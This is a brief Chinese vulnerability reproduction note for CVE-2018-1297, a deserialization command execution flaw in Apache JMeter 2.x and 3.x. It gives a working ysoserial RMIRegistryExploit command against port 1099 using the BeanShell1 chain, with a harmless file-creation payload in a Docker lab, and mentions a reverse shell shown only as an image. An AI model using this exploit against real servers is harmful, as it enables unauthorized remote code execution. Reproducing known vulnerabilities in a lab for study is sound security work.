 （CVE-2018-1297）Apache Jmeter RMI 反序列化命令执行漏洞
=======================================================

一、漏洞简介
------------

Apache
JMeter是美国阿帕奇（Apache）软件基金会的一套使用Java语言编写的用于压力测试和性能测试的开源软件。其2.x版本和3.x版本中存在反序列化漏洞，攻击者可以利用该漏洞在目标服务器上执行任意命令。

二、漏洞影响
------------

Apache JMeter 2.x版本Apache JMeter 3.x版本

三、复现过程
------------

直接使用ysoserial即可进行利用：

    java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit ip 1099 BeanShell1 'touch /tmp/success'

我们使用的是BeanShell1这条利用链。使用`docker-compose exec jmeter bash`进入容器，可见`/tmp/success`已成功创建：

1.png

反弹shell:

2.png
